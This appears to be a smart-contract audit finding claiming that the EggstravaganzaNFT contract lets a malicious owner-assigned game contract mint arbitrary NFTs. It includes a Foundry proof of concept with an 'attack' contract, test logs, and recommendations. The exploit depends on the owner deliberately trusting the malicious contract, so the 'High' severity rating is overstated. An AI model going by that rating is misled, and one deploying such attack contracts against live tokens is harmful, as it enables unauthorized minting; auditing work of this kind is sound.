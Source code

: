 # High

## TITLE: Insecure Access Control Allows Arbitrary Minting by Malicious Contracts

## Summary

The `EggstravaganzaNFT` contract assigns minting authority to a single `gameContract` address without validating its behavior. This creates an insecure trust boundary that allows a malicious contract to be assigned and used to arbitrarily mint NFTs.

## Vulnerability Details

The contract uses a single variable, `gameContract`, to determine whether a caller is authorized to mint:

```solidity
function mintEgg(address to, uint256 tokenId) external returns (bool) {
    require(msg.sender == gameContract, "Unauthorized minter");
    _mint(to, tokenId);
    totalSupply += 1;
    return true;
}
```

The `gameContract` address is set by the owner via:

```solidity
function setGameContract(address _gameContract) external onlyOwner {
    require(_gameContract != address(0), "Invalid game contract address");
    gameContract = _gameContract;
}
```

There is no validation that the assigned contract adheres to a specific interface, behaves as expected, or is not malicious. As a result, any attacker who gains access to the owner account — or any mistakenly trusted contract — can be granted minting power.

In our test, we deployed a malicious contract that exposes a public function allowing arbitrary minting. Once this contract is set as `gameContract`, anyone can mint NFTs by calling it.

# PoC

```Solidity
/*//////////////////////////////////////////////////////////////
            PoC: MALICIOUS CONTRACT CAN MINT EGGS
//////////////////////////////////////////////////////////////*/

contract MaliciousGameContract {
    EggstravaganzaNFT public egg;

    constructor(address _egg) {
        egg = EggstravaganzaNFT(_egg);
    }

    function attack(address to, uint256 tokenId) external {
        // Mint an egg to any address
        egg.mintEgg(to, tokenId);
    }
}

/*//////////////////////////////////////////////////////////////
                PoC: TEST MALICIOUS CONTRACT CAN MINT EGGS
//////////////////////////////////////////////////////////////*/

contract EggstravaganzaNFTTest is Test {
    EggstravaganzaNFT public egg;
    MaliciousGameContract public attacker;

    address public owner = address(0xABCD);
    address public victim = address(0xBEEF);

    function setUp() public {
        vm.startPrank(owner);
        egg = new EggstravaganzaNFT("Egg", "EGG");
        vm.stopPrank();
    }

    function test_MaliciousContractCanMintIfWhitelisted() public {
        // Simulate attacker deploying a malicious contract
        vm.startPrank(owner);
        attacker = new MaliciousGameContract(address(egg));

        // Owner sets malicious contract as the authorized game contract
        egg.setGameContract(address(attacker));
        vm.stopPrank();

        // Log total supply before the attack
        console.log("Total supply before attack:", egg.totalSupply());

        // Now anyone can use the malicious contract to mint an egg
        vm.startPrank(address(0xBAD));
        attacker.attack(victim, 999);
        vm.stopPrank();

        // Assert that the egg was minted
        assertEq(egg.ownerOf(999), victim);
        assertEq(egg.totalSupply(), 1);

        // Console logs for proof
        console.log("Malicious game contract deployed at:", address(attacker));
        console.log("Victim address:", victim);
        console.log("Egg owner of tokenId 999:", egg.ownerOf(999));
        console.log("Total supply after attack:", egg.totalSupply());
    }
}
```

***

\[PASS] test\_MaliciousContractCanMintIfWhitelisted() (gas: 376139)

**Logs:**

* Total supply before attack: 0
* Malicious game contract deployed at: 0x2561e2FAEA20b514433C253266d9DA5dDD3E4Cd5
* Victim address: 0x000000000000000000000000000000000000bEEF
* Egg owner of tokenId 999: 0x000000000000000000000000000000000000bEEF
* Total supply after attack: 1

***

## Impact

* Unauthorized NFTs can be minted by untrusted or malicious contracts.
* Total supply can be inflated arbitrarily.
* Trust assumptions around the uniqueness and fairness of the game are broken.
* If NFTs have market value or gameplay significance, this could enable theft, spam, or manipulation.

## Tools Used

* Foundry
* Console logging (via `console.log`)
* Manual inspection and test-based Proof of Code

## Recommendations

* Require the `gameContract` to implement a known interface (e.g., `IGameMinter`) and enforce it via `try/catch` or interface checks.
* Consider restricting minting to a known, immutable game contract — or use access control patterns from OpenZeppelin like `AccessControl`.
